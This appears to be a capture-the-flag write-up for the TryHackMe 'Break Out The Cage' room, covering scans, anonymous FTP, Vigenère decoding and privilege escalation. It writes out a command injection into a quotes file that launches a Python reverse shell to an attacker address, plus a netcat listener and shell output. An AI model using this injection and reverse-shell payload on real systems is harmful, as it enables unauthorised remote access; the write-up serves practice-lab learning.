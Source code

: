 # break out the cage
![BOTC](https://user-images.githubusercontent.com/80511498/147870792-2dee2d8b-3fea-4883-8884-3e4f66808154.png)
**Tryhackme break out the cage[easy]** 
https://tryhackme.com/room/breakoutthecage1
## NMAP SCAN 
___
```
 starting Nmap 7.92 ( https://nmap.org ) at 2022-01-01 14:09 IST
 Nmap scan report for 10.10.24.112
 Host is up (0.17s latency).
 Not shown: 997 closed tcp ports (reset)
 PORT   STATE SERVICE VERSION
 21/tcp open  ftp     vsftpd 3.0.3
 | ftp-syst: 
 |   STAT: 
 | FTP server status:
 |      Connected to ::ffff:10.17.33.72
 |      Logged in as ftp
 |      TYPE: ASCII
 |      No session bandwidth limit
 |      Session timeout in seconds is 300
 |      Control connection is plain text
 |      Data connections will be plain text
 |      At session startup, client count was 3
 |      vsFTPd 3.0.3 - secure, fast, stable
 |_End of status
 | ftp-anon: Anonymous FTP login allowed (FTP code 230)
 |_-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks
 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
 | ssh-hostkey: 
 |   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
 |   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
 |   256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
  80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
 |_http-title: Nicholas Cage Stories
 |_http-server-header: Apache/2.4.29 (Ubuntu)
 No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
 TCP/IP fingerprint:
 OS:SCAN(V=7.92%E=4%D=1/1%OT=21%CT=1%CU=32285%PV=Y%DS=5%DC=T%G=Y%TM=61D0137F
OS:%P=x86_64-pc-linux-gnu)......

 Network Distance: 5 hops
 Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

 TRACEROUTE (using port 199/tcp)
 HOP RTT       ADDRESS
 1   23.35 ms  10.17.0.1
 2   ... 4
 5   192.15 ms 10.10.24.112

 OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 Nmap done: 1 IP address (1 host up) scanned in 42.86 seconds
 ```
we can clearly see that 3 ports are open 

|service|port-no|
|---|---|
|ftp|port 21|
|ssh|port 22|
|http|port 80|

 
 
 ## dirserach Scan
 ```
  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10877

Output File: /root/.dirsearch/reports/10.10.24.112/_22-01-01_14-11-05.txt

Error Log: /root/.dirsearch/logs/errors-22-01-01_14-11-05.log

Target: http://10.10.24.112/

[14:11:06] Starting: 
[14:11:08] 301 -  311B  - /html  ->  http://10.10.24.112/html/
[14:11:13] 403 -  277B  - /.ht_wsr.txt
[14:11:13] 403 -  277B  - /.htaccessBAK
[14:11:13] 403 -  277B  - /.htaccess.orig
[14:11:13] 403 -  277B  - /.htaccess.save
[14:11:13] 403 -  277B  - /.htaccessOLD
[14:11:13] 403 -  277B  - /.htaccess_sc
[14:11:13] 403 -  277B  - /.htaccess_extra
[14:11:13] 403 -  277B  - /.htaccess_orig
[14:11:13] 403 -  277B  - /.htaccess.sample
[14:11:13] 403 -  277B  - /.htm
[14:11:13] 403 -  277B  - /.htaccessOLD2
[14:11:13] 403 -  277B  - /.html
[14:11:13] 403 -  277B  - /.htpasswds
[14:11:13] 403 -  277B  - /.httr-oauth
[14:11:13] 403 -  277B  - /.htaccess.bak1
[14:11:13] 403 -  277B  - /.htpasswd_test
[14:12:08] 200 -  737B  - /html/
[14:12:09] 301 -  313B  - /images  ->  http://10.10.24.112/images/
[14:12:09] 200 -    4KB - /images/
[14:12:10] 200 -    2KB - /index.html
[14:12:33] 301 -  314B  - /scripts  ->  http://10.10.24.112/scripts/
[14:12:33] 200 -    2KB - /scripts/
[14:12:33] 200 -    2KB - /auditions/
[14:12:33] 403 -  277B  - /server-status
[14:12:34] 403 -  277B  - /server-status/

Task Completed
```
i did a directory search and found few page's

so i looked at every page carefully and found nothing on /html, script and images
but i found something on /auditions page an audio , i will check it later
 ![Screenshot (74)](https://user-images.githubusercontent.com/80511498/147870967-adab6879-559b-4b3e-986d-1f286df4189e.png)


## FTP 
```
$ftp 10.10.186.32
Connected to 10.10.186.32.
220 (vsFTPd 3.0.3)
Name (10.10.186.32:root): Anonymous            
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks
226 Directory send OK.
ftp> get dad_tasks
local: dad_tasks remote: dad_tasks
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for dad_tasks (396 bytes).
226 Transfer complete.
396 bytes received in 0.00 secs (2.0195 MB/s)
ftp> 
``` 
  so we got a file named dad_tasks
  ```
  # file dad_tasks 
    dad_tasks: ASCII text, with very long lines (396), with no line
	terminators
  ```
  so its ASCII text so it must be base encoding maybe base64 
  and yes it is and look what i found
  ```
Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... Qjhsvbouuoexcmvwkwwatfllxughhbbcmydizwlkbsidiuscwl
  ```
  and it looks like a  ceaser's cipher ummmmmm!!! but no its not 
  it is similer but uses vigenere cipher  
 - have two solution for that 
 - first find the key which is basiclly required to crack the cipher
   which you can basiclly find in the audio file is using spectrogram
 - use the following link to see the crack the audio cipher 
   - https://academo.org/demos/spectrum-analyzer/
    ![Screenshot (76)](https://user-images.githubusercontent.com/80511498/147871004-aab24a08-8437-4f92-bbf5-7801b1682fa6.png)

 - another link which will directly crack the cipher and will not need key to crack the cipher
https:www.guballa.de/vigenere-solver

** you will get the password for weston **
and the first answer 

# ssh

![Screenshot (78)](https://user-images.githubusercontent.com/80511498/147871037-2cf09c8b-1acd-433c-b138-c29e3502f3aa.png)


i looked around and found something

![Screenshot (86)](https://user-images.githubusercontent.com/80511498/147871688-b12f8f11-cb2a-4463-8957-7ce0f48d362f.png)

and its a bash file and is of no use to us ,so i tried searching again and looked around some files
and got something in opt 

![Screenshot (84)](https://user-images.githubusercontent.com/80511498/147871979-f8a3929b-cb51-418a-b1ac-c4f95ee81478.png)

lets see the spread_the_quotes.py

![Screenshot (85)](https://user-images.githubusercontent.com/80511498/147872047-468b3040-0a88-4017-ac23-e43aef25bb0d.png)

the quotes file can be used to put reverse shell
and we put in "hello" and && it bascily test line if hello print then it must be working 

```
"hello" && python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
now use netcat to listen to the port 
```
nc -lvnp 4242
```
and we got in 

```
 ┌──(kali㉿MSI)-[~]
└─$ nc -lvnp 4444 
Listening on 0.0.0.0 4444
Connection received on 10.10.149.48 43656
cage@national-treasure:~$ ls
ls
email_backup  Super_Duper_Checklist
cage@national-treasure:~$ cat Super_Duper_Checklist
cat Super_Duper_Checklist
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{user flag here}
cage@national-treasure:~$ 
```
now you can look into the email files you will find again find a vigenere cipher just crack it and you will get the root access
and you can find the root flag in /root/email_backup
```
cat email_2
From - master@ActorsGuild.com
To - SeanArcher@BigManAgents.com

Dear Sean

I'm very pleased to here that Sean, you are a good disciple. Your power over him has become
strong... so strong that I feel the power to promote you from disciple to crony. I hope you
don't abuse your new found strength. To ascend yourself to this level please use this code:

THM{root flag here}

Thank you

Sean Archer
```
 
 
		
